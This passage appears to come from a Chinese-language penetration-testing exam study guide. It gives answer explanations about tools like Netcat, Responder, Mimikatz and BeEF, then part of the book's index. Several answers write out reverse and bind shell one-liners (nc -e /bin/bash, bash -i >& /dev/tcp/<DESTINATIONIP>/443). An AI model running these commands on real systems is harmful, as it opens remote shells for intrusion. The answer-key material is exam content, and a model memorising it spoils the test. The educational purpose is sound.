在这种场景下，最佳选项是 `SSH` 和 `Wireshark`。安全外壳 (`SSH`) 为系统之间提供安全的安全的加密连接。`SSH` 通过加密连接提供远程 shell 访问。`SSH` 用于对系统进行安全的命令行访问，通常通过 TCP 端口 `22`，存在于所有类型的设备和系统中。由于 `SSH` 非常常见，测试提供 `SSH` 服务的系统对于渗透测试人员来说是非常吸引力的选项。`Wireshark` 是一个协议分析器，允许渗透测试人员窃听和剖析网络流量。`Wireshark` 还允许从无线网络中捕获网络流量。

### 24. A.
`Netcat` 可在几秒内建立 Telnet 服务器。你可以使用 `-e` 参数指定希望 `Netcat` 在连接成功后运行的 shell。在这种场景下，正确的语法应该是：
```bash
nc -lp 444 -e /bin/bash
```
`nc` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：
- `-l`：指定监听模式，用于入站连接
- `-p`：指定要监听连接的端口
- `-e`：告诉在端口连接后运行哪个程序（`cmd.exe`）
- `-v`：详细模式，在标准错误上打印消息，例如当连接发生时

### 25. D.
`Responder` 是一个工具包，用于响应网络上 Windows 系统的 NetBIOS 查询。`Responder` 在利用 NetBIOS 响应时是一个强大的工具。它可以针对单个系统或整个本地网络，允许你分析或响应 NetBIOS 名称服务，并伪装成查询目标的系统。

### 26. C 和 E.
有多种工具可以协助此类 OSINT 收集：
- `Censys` 是一个基于 Web 的工具，用于探测整个互联网的 IP 地址，然后通过搜索引擎让渗透测试人员访问这些信息。
- `Fingerprinting Organizations with Collected Archives (FOCA)` 是一个开源工具，用于查找 Office 文档、PDF 和其他常见文件格式中的元数据。
- `Maltego` 是一款商业产品，协助对从 OSINT 工作中收集的数据进行可视化。
- `Nslookup` 工具有助于识别与组织相关的 IP 地址。
- `Recon-ng` 是一个模块化的网络侦察框架，用于组织和管理 OSINT 工作。
- `Shodan` 是一个特殊的搜索引擎，用于从公共来源发现有漏洞的物联网 (IoT) 设备。
- `theHarvester` 搜寻搜索引擎和其他资源，以查找有关组织的电子邮件地址、员工姓名和基础设施详情。
- `Whois` 工具从公共记录中收集有关域名所有权的信息。

### 27. A.
`Impacket` 是一组用于处理网络协议的 Python 类。`Impacket` 提供了了一系列工具，包括在捕获到哈希后使用哈希进行身份验证的能力。`Metasploit` 的 SMB 捕获模式、`Responder` 和 `Wireshark` 都可以从广播中捕获 SMB 哈希，但在这种场景下，你还希望在捕获消息后能够使用哈希进行身份验证。

### 28. B.
在凭据暴力破解中，测试人员将尝试使用每个用户名和密码登录应用程序。`Hydra` 是一种暴力破解工具，可以使用密码猜测破解系统。

### 29. B 和 C.
`nmap` 和 `hping` 实用程序可用于主动枚举和识别目标系统。`Hping` 是一个命令行工具，允许测试人员人工生成网络流量。`Hping` 流行是因为它允许创建自定义数据包。`Nmap` 是最常用的命令行漏洞扫描器，是一个免费的开源工具。它提供了广泛的能力，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`Whois` 是一个从公共记录中收集域名所有权信息的工具。`Aircrack-ng` 提供了进行重放攻击和取消认证的能力，并可以作为伪造接入点。

### 30. C.
通过从命令行运行 `msfconsole` 来启动 `Metasploit`。`MSFconsole` 位于 `/usr/share/metasploit framework/msfconsole` 目录下。

### 31. B.
`Mimikatz` 是一个开源工具，允许使用其 `sekurlsa` 模块查看 Windows 本地安全权威子服务 (`LSASS`) 的凭据信息，其中包含明文密码和 Kerberos 票据，这些票据随后可用于如哈希传递等攻击。

### 32. C.
`Hydra` 设计用于支持 NTLM 哈希的密码破解。`Hashcat` 是一个密码破解和恢复工具。`Drozer` 是一个用于 Android 安全的框架。`Kismet` 是一个 802.11 层无线网络检测器、嗅探器和入侵检测系统。`Hydra`（通常称为 `thc-hydra`）是一种支持各种协议和服务的暴力破解攻击工具。

### 33. A.
浏览器利用框架 (`BeEF`) 设计用于此类攻击。`BeEF` 提供了一个自动化工具包，通过社交工程接管客户端浏览器。你可以使用各种钓鱼和社交工程技术让员工访问网站。

### 34. A.
自定义列表 (`CeWL`) 生成器是一个应用程序，允许测试人员根据 URL 和深度设置扫描网站，然后从找到的文件和网页生成字典。针对目标组织的网站运行 `CeWL` 有助于生成自定义字典。如果你收集了大量关于组织的信息，构建自定义字典可能特别有用。

### 35. D.
在这种场景下，问题特别提到了“名称解析请求”。情况下，`Responder` 是最佳选择。`Responder` 是用于响应网络上 Windows 系统 NetBIOS 查询的工具包。`Tcpdump` 是一种包分析软件程序，用于监控和记录通过网络和执行它的计算机之间的的 TCP/IP 流量。`Ettercap` 是用于局域网中间人攻击的免费开源网络安全工具。`Medusa` 是一种支持各种协议和服务的暴力破解登录工具。

### 36. B.
`Shodan` 是一个流行的安全搜索引擎，提供了预建搜索以及针对工业控制系统、数据库和其他常见搜索查询的分类。`Shodan` 是一个搜索引擎，允许用户通过各种过滤器发现连接到互联网的特定类型的计算机和设备。一些人将其描述为服务 banner 的搜索引擎，即 服务器返回给客户端的元数据。使用 `Shodan` 进行渗透测试需要对包括 HTTP 状态码在内的 banner 有基础知识。


### 37. A. 与 Shodan 类似，`Censys` 是一个以安全为导的搜索引擎。当你在 `Censys` 中深入研究主机时，你还会发现 geoIP 信息（如果可用）以及该主机暴露的服务的全面总结，从而提供更详细的信息。`GeoIP` 指通过识别终端的 IP 地址来确定计算机终端的地理位置的方法。

### 38. C. `Sqlmap` 是一个开源工具，用于自动化对带有数据库后端的 Web 应用程序进行 SQL 注入攻击。`Sqlmap` 是一种常用的开源数据库漏洞扫描器，允许安全管理员探测 应用程序的数据库漏洞。在这种场景下，`Sqlmap` 是一个专门的数据库漏洞扫描器，是最合适的工具。

### 39. C. `Netcat` 是一个开源的网络调试和探索实用程序，它可以使用 TCP/IP 协议跨网络连接进行数据读写。`Netcat` 也是一种流行的远程访问工具，其占用空间小，使其在渗透测试期间可以易地移植到许多系统中。在 Linux 上使用 `netcat` 设置反向 shell 如下所示：

```
nc [IP of remote system] [port] -e /bin/sh
```

*   在 Windows 上使用 `netcat` 设置反向 shell 如下所示：`nc [IP of remote system] [port] -e cmd.exe`
*   使用此命令也可以很容易地将 `netcat` 设置为监听：`nc -l -p [port]`

### 40. B and C. `Netcat` 是一个开源的网络调试和探索实用程序，它可以使用 TCP/IP 协议跨网络连接进行数据读写。`Netcat` 也是一种流行的远程访问工具，其占用空间小，使其在渗透测试期间可以易地移植到许多系统中。在 Linux 上使用 `netcat` 设置反向 shell 如下所示：

```
nc [IP of remote system] [port] -e /bin/sh
```

*   在 Windows 上使用 `netcat` 设置反向 shell 如下所示：`nc [IP of remote system] [port] -e cmd.exe`
*   使用此命令也可以很容易地将 `netcat` 设置为监听：`nc -l -p [port]`
*   `Ncat` 被设计为 `Netcat` 的继任者，具有相同的功能并包含许多额外能力，例如使用 `SSL`、代理以及如发送电子邮件或将 `Ncat` 会话链在一起作为链的一部分以允许进行跳转（pivoting）。

### 41. C. `Responder` 是一个工具包，用于回答网络上 Windows 系统的 NetBIOS 查询。在利用 NetBIOS 响应时，`Responder` 是一个强大的工具。它可以针对单个系统或整个局域网，允许你分析或响应 NetBIOS 名称服务，伪装成查询目标系统。`Responder` 利用对服务响应的信任，告诉客户端响应者宿主机是合法的服务提供者，导致其发送哈希后的凭据，随后 `Responder` 主机的所有者可以使用这些凭据对合法服务器进行身份验证。

### 42. B. 在此场景中，你正在使用条件执行，因此只有一个子句会被执行。所以，在这种情况下，`if` 子句后面的代码将执行，导致 `elif` 或 `else` 子句无法执行。条件执行允许开发者编写仅在满足某些逻辑条件时执行的代码。最常见的条件执行结构是 `if.. then ..else` 语句。

### 43. B and C. 于此场景，脚本中不需要包含 `let` 单词，因此可以将其删除；在 `Bash` 中，等同于 `=` 有 `-eq`，它是一个算术二元运算符。一旦进行了这些修改，脚本将按预期工作。

### 44. A. `PowerShell` 要求在赋值操作中在数组名称前使用 `$`。数组的元素将以逗号分隔列表的形式提供。选项 B 在 `Bash` 中有效，选项 C 在 `Ruby` 或 `Python` 中有效，而选项 D 不符合 `PowerShell` 命令的正确语法。`PowerShell` 在声明和使用变量方面要简单得多。你只需要记住在变量名前面加上 `$`，无论是为了设置、更改还是检索存储在变量变量中的值。

### 45. A. 你将想要创建一个 `Netcat` 监听器，等待来自目标机器的入站 shell。为了获取 shell，`Netcat` 使用 `nc -nvlp 443` 来监听传入的连接。使用这种语法，你是在告诉 `Netcat` (`nc`) 不要解析名称 (`-n`)，使用详细模式并在连接发生时打印 (`-v`)，以及在指定的本地端口 (`-p`) 上监听 (`-l`)。

### 46. A. 在此场景中，给出的 `PowerShell` 命令将执行远程脚本。通过使用 `PowerShell` 的 `IEX` 命令，将调用一个表达式。`IEX` 内部评估或运行指定的字符串作为命令，并返回表达式或命令的结果。`PowerShell` `Invoke-Command` 内部在本地或远程计算机上运行命令并返回命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，你可以在多台计算机上运行命令。

### 47. A. 反向 shell 在端口上打开通信通道并等待传入的连接。客户端机器作为服务器并启动到测试员机器的连接。这是通过以下命令实现的：

```bash
bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1
```

*   考虑到选项，A 是最佳选项。B 和 C 不可行，因为它们使用了 `<SOURCEIP>` 而不是 `<DESTINATIONIP>`，选项 D 不正确因为它使用了错误的语法。

### 48. A. 在 `Bash` shell 中，可以打开网络 socket 来传递数据。可以使用 `/dev/tcp/<host>/<port>` 打开 TCP socket。Bash 正在尝试连接相应的 socket。因此，在此示例中执行了端口扫描。

*   代码解析：
*   `/bin/bash -i`: 调用交互式 shell。
*   `>& /dev/tcp/<host>/<port>`: 将 shell 管道至测试员。
*   `0<&1 2>&1`: 将标准输入重定向到标准输出。对标准错误也同样操作。

### 49. C. 在此场景中，将客户组织的风险忍度放入执行摘要是非常重要的。风险忍度基本上是指组织考虑投资时愿意承担的风险。对于任何投资，风险总是存在的，但一个人能承受多少风险取决于其风险忍度。这对每个组织可能不同。你无法为风险忍度设定一个固定值。

### 50. D. 执行摘要不应包含技术细节。执行摘要是报告最重要的部分。它应该以清晰易懂的语言编写，涵盖报告中的所有重要结论。你应该用通俗的语言解释发现的内容，并用客户能够理解的术语描述对业务的风险。

### 51. C. 常见漏洞评分系统 (`CVSS`) 是评估安全漏洞严重性的行业标准。它提供了一种根据各种指标对漏洞进行评分的技术。安全分析师经常使用 `CVSS` 评分来优先考虑响应措施。每个指标都有一个描述性评分和一个数值分数。

### 52. B. 在此场景中，问题指出渗透测试员正在编写一份“概述整体风险水平”的报告。根据这一陈述，测试员会将此信息包含在执行摘要。执行摘要是报告最重要的部分。它应该以清晰易懂的语言编写，涵盖报告中的所有重要结论。测试员应该用通俗的语言解释发现的内容，并用客户能够理解的术语描述对业务的风险。


### 53. A
在这种场景下，它询问安全分析师首先应该做什么。一旦发现了漏洞，你就需要对风险及其对你组织的影响进行评级。评级将决定继续工作是否足够安全，或者是否需要采取额外的控制措施来减少或消除风险。评级取决于事件发生的概率和漏洞的严重性。通用漏洞评分系统 (`CVSS`）是一个用于评估安全漏洞严重性的框架。`CVSS` 使用算法来确定三个严重性评分：基础（Base）、临时（Temporal）和环境（Environmental）。这些评分是数值，范围从 0.0 到 10.0。最严重的是 10.0。根据 `CVSS`，0.0 分获得 `None`（无）级评分，`0.1–3.9` 分获得 `Low`（低）级评分，`4.0–6.9` 分为 `Medium`（中）级，`7.0–8.9` 分为 `High`（高）级，`9.0–10.0` 分为 `Critical`（严重）级。在此场景下，分值为 10.0，属于 `Critical` 类别。

### 54. A
执行摘要是报告中最重要的部分。大多数时候，它是许多人员唯一阅读的章节，因此其编写方式应该用“通俗易懂的语言”传达报告的所有重要结论，换句话说，用一种每个人都能理解的清晰方式编写。执行摘要用通俗的英语提供了风险和业务影响的高级视图。其目的是简洁明了。它应该是非技术性的，以便读者审查并深入了解报告中强调的安全关注问题。

### 55. A
结论是你总结报告并提出建议的机会。结论是对测试的最终概述。它应该以一个积极的基调结束，为客户提供支持和指导。

### 56. B, C, and D
CompTIA 强调了三个重要的参与后清理活动：

* 移除渗透测试期间安装在系统上的任何 shell
* 移除测试期间安装的任何测试人员创建的账户、凭据或后门
* 移除测试期间安装的任何工具
* 漏洞修复是一项后续活动，不作为测试的一部分。测试人员应该移除测试期间安装的任何 shell 或工具，并移除他们创建的任何账户或凭据。

### 57. A
在这种场景下，最好在“教训总结”阶段重新审视这种情况。教训总结会议是团队聚在一起并在没有客户现场的情况下讨论测试过程和结果的机会。团队成员应该自由讨论测试并提供改进建议。教训总结会议是一个强调测试期间使用的任何创新技术的绝佳机会，这些技术可能在未来的参与中被使用。

### 58. B
渗透测试之后，撤销你对客户网络所做的所有操作是至关重要的。做到此的最佳方法是在进行测试时仔细记录你所做的每件事。这样，你就不会不小心漏掉某些内容。

### 59. A and C
渗透测试之后，撤销你对客户网络所做的所有操作是至关重要的。因此，如果你创建了任何 shell，它们需要被移除。同时，在测试期间记录你所做的每件事也很重要。这样，你就不会不小心漏掉某些内容。目标是将一切恢复到你测试之前的状态。

### 60. B
在完成服务后，你应该获得客户的认可。这可能包括对你的最终报告的书面确认。大多数时候，这包括一次面对面的会议，你可以在那里与客户讨论参与的结果，并回答他们可能有的任何问题。客户认可标志着参与的结束，也是测试人员已完成工作范围的正式协议。

### 61. A
发现证明（Attestation of findings）是由渗透测试人员提供的一份文档，用于合规目的记录他们进行了测试以及结果。它是测试人员执行渗透测试的记录。它包含了发现的摘要。其意图用于外部使用（即在客户组织之外），以证明执行了渗透测试并突出显示测试结果。

### 62. D
在这种场景下，由于测试是由公司内部的初级管理员执行的，对公司利益最大的做法可能是向专业的渗透测试公司创建一份征求书 (`RFP`)，以与评估达成一致并让公司获得任何漏洞发现结果。`RFP` 是一份征集提案的文件，通常通过招标过程进行。

### 63. D
在这种场景下，你正在讨论技术问题。技术控制也对许多安全威胁提供了有效的防御。修复活动主要分为三大类。这些类别是：人员、流程和技术。

### 64. B
在这种场景下，告诉同事的最佳选项是多因素身份验证是使用智能卡和 PIN 码。多因素身份验证 (`MFA`) 是一种安全系统，它要求来自不同类别凭据的多种验证方法，以验证用户登录或其他交易的身份。身份验证的类别包括：你所知的、你拥有的以及你所特征的。

### 65. B
在这种场景下，你和同事正在讨论你所拥有的东西。物理对象可以用作身份验证机制。寻求保护敏感信息和关键资源的组织应该实施多因素身份验证。多因素身份验证的实现结合了来自不同验证类别的两个或更多验证机制。身份验证类别是：你所知的、你拥有的以及你所特征的。

### 66. A
在这种场景下，公共 Web 服务器上开启了几个高端口。最佳建议是禁用不需要的服务，因为客户只使用 `443`。不需要的服务会带来安全风险，因为它们增加了攻击面，为潜在的攻击者提供了更多尝试利用系统的途径。

### 67. C
系统加固（也称为操作系统系统加固）有助于减少安全漏洞。系统加固的目的是尽可能消除安全风险。这通常通过从计算机中删除所有非必要的程序和实用程序来实现。通过删除未使用的程序、账户、功能、应用程序、端口、权限等进行系统加固的目标是减少攻击者进入你网络的机会。系统加固有多种类型，包括：

* 应用加固
* 操作系统加固
* 服务器加固
* 数据库加固
* 网络加固

### 68. A
最佳建议是禁用任何不需要的服务。不需要的服务会带来安全风险，因为它们增加了客户网络的攻击面，为潜在的攻击者提供了多种尝试利用系统的途径。攻击面是给定计算设备或网络中潜在黑客可以访问的漏洞总和。

### 69. A
本地管理员密码解决方案 (`LAPS`) 是微软用于管理管理员凭据的工具。它通过 Active Directory 随机化本地管理员账户凭据。限制管理员密码助手 (`LAPA`) 并不存在。`Nessus` 是一个漏洞扫描器，而 `Metasploit` 是一个用于执行和攻击网络的利用框架。


## 70. B, E, and G. 在这种情况下，由于测试人员能够攻破单个工作站并在网络中进行横向移动，给客户的最佳建议如下：

*   使用多因素身份验证：多因素身份验证（`MFA`）是一种身份验证方法，计算机用户在向身份验证机制成功提交两个或多个证据（或因素）后，才能获得访问权限。
*   增加最小密码复杂度：复杂密码通过独特的方式使用不同类型的字符来提高安全性，使攻击者更难破解。
*   启用全盘加密：全盘磁盘加密（`FDE`）是硬件层面的加密。`FDE` 的工作原理是自动将硬盘上的数据转换为没有密钥的人无法理解的形式。

## 71. A. 在此情景中，攻击者正在使用重定向。安全分析师应该阻止重定向。URL 重定向是一种 Web 服务器功能，可将用户从一个 URL 发送到另一个 URL。重定向通常以自动重定向的形式出现，使用 `HTTP` 协议中定义的状态码之一。因此，当 浏览器尝试打开一个已重定向的 URL 时，会打开一个具有不同 URL 的页面。

## 72. A, F, and G. 在此情景中，测试人员应建议客户增加密码要求，因为测试人员能够使用字典攻击破解这些密码。测试人员还应建议所有员工参加安全意识培训，因为当测试人员使用钓鱼技术时，IT 部门的一员泄露了相关信息。测试人员还应建议升级 `VPN` 的加密套件。加密套件是一组算法，有助于保护使用 `传输层安全协议 (TLS)` 或 `安全套接层 (SSL)` 的网络连接。

## 73. A. 在此情景中，测试人员应建议客户启用 `HTTP 强制传输安全 (HSTS)`。`HSTS` 响应标头允许浏览器仅使用 `HTTPS` 而不是 `HTTP` 进行访问。这是由 Web 应用程序通过特殊的响应标头指定的可选安全增强功能。一旦支持的浏览器接收到此标头，它将防止任何通过 `HTTP` 发送到指定域的通信，转而通过 `HTTPS` 发送所有通信。

## 74. A and B. 这些可能是需要立即与客户进行通信的情况。以下是一些渗透测试的触发点：通信触发点应在测试阶段完成后、发现关键结果或发现之前曾被入侵的迹象时进行。在此情景中，如果系统在尝试测试后不可用，且系统显示出未经授权访问的迹象，你就需要联系客户。

## 75. D. 在此情景中，客户没有预算立即修复发现的所有漏洞。在这种情况下，给客户的最佳建议是先修复最关键的漏洞，等资金到位后再修复其他漏洞。

## 76. B. 在此情景中，由于由于渗透测试人员发现了一个关键漏洞，测试人员应立即向客户告知发现的细节。

## 77. A. 冲突消除（Deconflict）是指确定检测到的攻击者是否实际上是物理安全评估的一部分。有时需要创建一张“免死牌”，上面有公司内高层官员的紧急下班电话号码，这些官员知晓测试情况并可以确认测试人员有权进行所请求的测试。

## 78. B. 降级（`deescalation`）术语是指客户与测试人员之间的通信过程，停止渗透测试期间使用的任何利用行为，因为这些行为可能对客户的网络产生影响。在此情景中，客户因为网站问题正在损失销售，因此需要停止测试。

## 79. D. 在此情景中，测试人员已完成一个阶段的测试并准备进入下一个阶段。这被称为`阶段 (stages)`。在完成一个测试阶段时，测试人员应联系客户告知其一个阶段已完成，并进入测试的下一个阶段。

## 80. A. 如果渗透测试人员发现客户环境的安全存在关键问题，他们不应等待最终报告的交付。通过不处理关键漏洞，可能会使客户处于不可接受的风险水平，并导致潜在的入侵。测试人员应立即通知管理层该问题。

# 索引

### A

*   访问 (access)
    *   控制台, 124, 234
    *   PCI-DSS 要求, 22–23
    *   先前的未经授权的, 207, 248
*   访问接入点 (access points)
    *   无线设备, 205
    *   Zenmap 工具, 55
*   账户 (accounts)
    *   利用持久化, 126
    *   加固, 201
    *   非活跃, 84, 223
    *   锁定, 197–198
    *   名称, 154
    *   只读, 84, 223
*   对阶段的操作 (Actions on phase), 38
*   活动目录 (Active Directory)
    *   认证, 17
    *   后门, 186
    *   控制器, 201
    *   KDC, 16
    *   Kerberos 票, 155
    *   用户, 11
    *   工作站, 110
*   活动目录服务 (Active Directory Services)
    *   ADMIN 共享, 31
*   管理员密码, 96
    *   默认, 80, 204
    *   Zenmap 工具, 57
*   高级持续性威胁 (APTs)
    *   攻击者, 7
    *   危险, 30
    *   描述, 37, 218
    *   身份伪装, 217
    *   目标, 7
    *   商业秘密, 37
*   AFL 工具, 157
*   密码年龄, 196–198
*   协议 (agreements)
    *   语言, 32
    *   MSAs, 12, 30, 39, 220
    *   NDAs, 12, 29, 39
    *   不竞业, 12
*   aircrack-ng 工具
    *   加密, 222
    *   OSINT, 47
    *   密码, 155
    *   射频发射, 65
*   aireplay-ng 工具, 66
*   airodump-ng 工具, 65
*   反病毒软件, 22


* 用于横幅抓取（banner grabbing）的 Apache, 62
* API（应用程序接口）
    * 文档, 17
    * Swagger 框架, 215
* APK Studio 工具, 157, 161
* APKX 工具, 157, 161
* Apple 远程桌面 (ARD), 124
* 应用程序接口 (API)
    * 文档, 17
    * Swagger 框架, 215
* APTs。参见高级持续性威胁 (APTs)
* 架构图, 17, 215
* ARD (Apple 远程桌面), 124
* ARP 欺骗
    * MAC 地址, 128, 228
    * MITM 攻击（中间人攻击）, 110, 112
* `arpspoof -t` 命令, 129
* 脚本中的数组, 162–165, 177, 241
* 汇级代码, 67
* 资产分类
    * 方法, 78
    * 子网, 85
* 资产子网, 85, 223
* traceroute 命令中的星号 `*`, 50–51
* at 工具, 125
* 攻击与漏洞利用概述
    * ARP 欺骗, 110, 112, 128
    * 权威诉求, 98–101, 130
    * 自动任务, 125
    * 徽章克隆, 104–105, 134
    * 蓝牙信息攻击 (bluejacking), 114, 134
    * 蓝牙信探 (bluesning), 114
    * 商务邮件欺骗, 98
    * `chmod` 命令, 131
    * 网络上的明文传输, 125
    * 点击劫持, 117, 130
    * 编码实践, 118–119
    * 冷启动攻击, 123
    * 命令历史记录, 132
    * 命令注入, 134
    * 控制台访问, 124
    * Cookie 操纵, 118
    * `cPassword` 属性, 120
    * 凭证, 114–16, 133
    * 跨站请求伪造, 117
    * 跨站脚本, 117, 128, 135
    * CVE 数据库, 119
    * 身份验证攻击, 131
    * 默认账户设置, 122–123
    * 拒绝服务, 112
    * 目录遍历, 118, 132
    * 分布拒绝服务, 112
    * DLL 劫持, 122
    * DNS 缓存污染, 109
    * DNS 毒化, 109
    * 翻垃圾桶 (dumpster diving), 103–105
    * 出口传感器绕过, 103
    * 诱导, 95–96, 98
    * 紧急故障开路, 105
    * 恶性双胎攻击, 113, 127
    * 恐惧因素, 100, 102
    * 边界跳转, 103
    * 文件包含, 118
    * 分段攻击, 114
    * FTP 服务器, 108
    * 隐藏漏洞, 126
    * HTML 表单, 130
    * 身份伪装, 95, 132
    * 不安全直接对象引用, 117
    * 审问, 95, 98
    * 采集攻击, 115
    * JTAG 漏洞, 123
    * Kerberos 哈希劫持, 113, 130
    * Kerberos 攻击, 116
    * 内核漏洞, 122
    * 记录器, 135
    * LDAP, 121
    * 相似性, 100, 102
    * LLMNR, 106
    * 锁定, 103, 105
    * LSASS, 121
    * MITM 攻击, 129, 132
    * NAC, 112
    * 空闲话, 133
    * 端口, 106
    * OS 漏洞, 127
    * OSINT（开源情报）, 97
    * 密码哈希, 110
    * 钓鱼攻击, 94, 96
    * 渗透, 131
    * 权限提升, 120
    * 漏洞利用, 135
    * 注入攻击, 116
    * 远程执行, 123
    * 远程管理, 124
    * 重复攻击, 115
    * 重放攻击, 110
    * 2libc, 120
    * RFID 克隆, 114
    * Root 执行, 120
    * SAM 数据库, 131
    * 沙箱逃逸, 123
    * 稀缺性, 99
    * 计划任务, 122
    * 串口控制台, 123
    * 会话连接, 106
    * 会话劫持, 116
    * Shell 升级, 133
    * 肩部偷视, 96, 98
    * SMB 协议, 107
    * 手机钓鱼攻击, 94
    * 短信钓鱼, 97
    * SMTP, 108
    * SMTP 继继, 108
    * SNMPv1 协议, 107
    * 社会工程学, 97, 128
    * 社会证明因素, 99, 101
    * 针对性钓鱼, 94, 97, 127, 133
    * SQL 注入, 115, 132–133
    * SSL 剥离, 111
    * 存储型跨站脚本, 128
    * 尾随进入, 102, 104
    * TCP SYN 洪水攻击, 128


- 木马程序 (Trojans), 126
- 通过 PXE 进行无人值安装, 121
- 未加引号的服务路径, 122, 134
- 不安全的权限, 122
- 不安全的服务, 119
- 紧迫因素, 99–101
- USB 密钥投放, 96–97
- 语音诈骗 (vishing), 95, 97, 134
- VLAN, 113
- 网页爬取, 129
- 捕鲸鱼钓攻击 (whaling), 94, 97
- 白名单设备, 113
- 无线设备信息, 127, 229
- WMI, 124
- 工作站, 106
- WPS 破解, 114
- 发现结果证明, 206, 245
- 身份验证
    - 证书锁定 (certificate pinning), 217
    - 取消认证攻击, 131
    - HSTS, 248
    - 多因素。参见多因素身份验证
    - 无线设备, 205
- 权限申诉
    - 示例, 98–101, 130, 227
    - 钓鱼攻击, 233
    - 社会工程学, 128
- 授权
    - 云端内容, 39
- 来源, 34
    - 书面, 11
- 自动运行，禁用, 202
- 可用性问题, 27, 248

## B
- 后门
    - 活跃目录 (Active Directory), 186
    - 漏洞利用持久化, 126
- 门卡克隆, 27, 134, 233–234
- 无线设备频段, 127, 229
- 横幅抓取 (banner grabbing), 60–62
- bash
    - 历史记录, 234
    - 反向 shell, 242
    - 脚本, 162–163, 166–169, 171–174
- BeEF (浏览器利用框架) 工具, 156, 174, 238
- 渗透过程中的行为, 8
- 绑定 shell (bind shell), 160, 239
- 生物识别扫描仪
    - 指纹, 83, 85
    - 多因素认证, 200
    - 视网膜扫描, 199
- 黑盒测试
    - , 11
    - 描述, 5
    - 信息收集与漏洞, 44
    - 网络拓扑, 17
    - 外部攻击, 10
    - 前提条件, 20
    - 范围, 24
    - 策略, 219
    - 测试者位置, 25
    - 零知识, 33, 35
- SQL 注入中的黑名单, 132–133, 230
- 黑名单 IP 地址, 30, 219
- 蓝牙攻击 (bluejacking), 114, 134, 229
- 蓝牙劫持 (bluesning), 114
- 广播消息
    - 伪造, 110
    - Impacket 工具, 178, 237
- 浏览器利用框架 (BeEF) 工具, 156, 174, 238
- 暴力破解攻击
    - 凭据, 115
    - Hydra 工具, 237
    - 彩虹表攻击, 87, 226
    - 工具, 155, 172
- 对预算的影响, 36, 219
- 密钥破解, 69
- 企业邮箱泄露, 98

## C
- Cain and Abel 工具, 154
- CAPEC (常见攻击模式枚举与分类)
    - 描述, 68, 221
    - 开源情报收集 (OSINT), 88
- 持卡人数据环境 (CDE), 22
- 脚本中的案例结构, 169
- Censys 工具
    - 描述, 221
    - 互联网设备, 179, 239
    - IP 地址, 45
- centralops.net 网站, 51–54
- CERT (计算机应急响应小组)
    - 描述, 67, 69, 221
    - 开源情报收集 (OSINT), 87
- 证书检查, 63
- 证书锁定
    - 身份验证, 38, 217
    - 网络访问, 20, 33
- 证书代码
    - 密码, 158
    - 列表, 174, 238
- 检查工具, 126, 234
- CIA 模型, 216
- 密套件
    - 密码套, 45, 221
    - 升级, 247
- 网络中的明文, 25
- 明文劫持 (clearjacking), 114, 134, 229
- Telnet 服务中的关闭端口状态, 145
- 代码
    - 汇编层, 67
    - 交叉编译, 80, 86
    - 动态代码分析, 75
    - 远程执行, 123
    - 静态代码分析, 75, 77, 84, 223
    - 签名, 118–119
    - 不安全实践, 118
- 冷启动攻击, 123
- 命令历史记录删除, 132, 234
- 命令注入, 134, 229


- `密码`, 36, 216–217
- `用于规划`, 216

## 基于合规性的评估
- `描述`, 4, 14
- `发现扫描`, 84
- `PCI-DSS 标准`, 32

## 合规性漏洞
- `PCI-DSS  own`, 72
- `测试位置`, 74
- `工具`, 156–157

- `入侵指标，报告`, 37

- `计算机控制的制造设备`, 75

## 计算机应急响应小组 (CERT)
- `描述`, 67, 69, 221
- `开源情报 (OSINT)`, 87

- `结论，报告`, 189–191, 243

## 机密性
- `CIA 三要素模型`, 216
- `描述`, 27
- `发现结果`, 24
- `原因`, 36, 214

- `控制台访问`, 124, 234

## 容器
- `问题`, 74
- `沙箱逃逸利用`, 123

- `脚本中的控制结构`, 169–170

## Cookies
- `操纵`, 118
- `会话劫攻击`, 135

- `企业策略`, 36, 217

- `企业税务报税`, 46

- `cPassword 属性`, 120

## 凭据暴力破解
- `描述`, 115
- `Hydra 工具`, 237
- `尾随攻击`, 82

## 凭证扫描
- `账号统计`, 84
- `描述`, 86, 224
- `登录信息`, 73
- `结果`, 70
- `系统管理员视角`, 69

## 凭据
- `管理员`, 196
- `攻击`, 114–116
- `默认`, 116
- `硬编码`, 119
- `收集`, 114
- `LLMNR/NETBIOS-NS 查询`, 133, 228
- `移除`, 206
- `工具`, 172
- `VPNs`, 209, 247
- `弱`, 116

- `犯罪现场工具`, 156

## 关键发现与漏洞
- `报告`, 37, 186, 208, 210, 243, 249
- `建议操作`, 207, 248

## 交叉编译代码
- `旧服务器`, 80
- `目的`, 86, 226

- `跨站请求伪造 (CSRF)`, 117

## 跨站脚本 (XSS)
- `描述`, 128, 229
- `示例`, 117
- `HTML 注入`, 135

- `加密模块`, 23

- `CSRF (跨站请求伪造)`, 117

## CVE (常见漏洞与披露) 
- `攻击与利用`, 119
- `描述`, 68
- `旧服务器`, 68–69

## CVSS (通用漏洞评分)
- `示例`, 79
- `风险评分`, 207, 225, 242

## CWE (常见弱点枚举) 数据库, 68

- `网络杀链模型 (Cyber Kill Chain)`, 38

## D
- `DAST (动态应用安全测试)`, 157

## 数据泄露
- `网络设备`, 123
- `工具`, 159

- `DDoS (分布式拒绝服务) 攻击`, 112
- `冲突化`, 183–185, 249

- `权限提升`, 183–185, 249

- `恶性孪 WiFi 攻击中的去认证帧`, 113

- `去认证攻击`, 131

- `调试可执行文件`, 67

- `欺骗`, 81

## 反编译
- `汇编级代码`, 67
- `可执行文件`, 66–67, 157
- `默认账户设置利用`, 122–123

## 默认管理员密码
- `信息收集与漏洞识别`, 80
- `报告与通信`, 204–205
- `Zenmap 实用`, 57

- `默认凭据攻击`, 116

- `默认密码，PCI-DSS 要求`, 22

- `拒绝`, 27–28

- `拒绝服务 (DoS) 攻击`, 112

- `交接规则中的详细信息`, 9

- `带有无线设备`, 205

## 字典攻击
- `描述`, 82
- `员工档案`, 85, 225

- `dig 命令`, 75

- `Dirbuster 工具`, 158

## 目录穿越
- `描述`, 118
- `日志`, 132, 230

## 禁用
- `DHCP`
- `未使用服务`, 202, 208, 211, 246
- `闲账户`, 201

- `交接规则中的免责声明`, 9

- `披露`, 27–28

## 发现扫描
- `描述`, 84, 222
- `IDS`, 71
- `IPS`, 71
- `ping 扫描`, 70

- `磁盘擦除软件`, 192

- `处置`, 192–193

- `分布式拒绝服务 (DDoS) 攻击`, 112

## DLL 劫持
- `描述`, 122
- `持久化利用`, 122

## DNS
- `缓存投毒`, 109
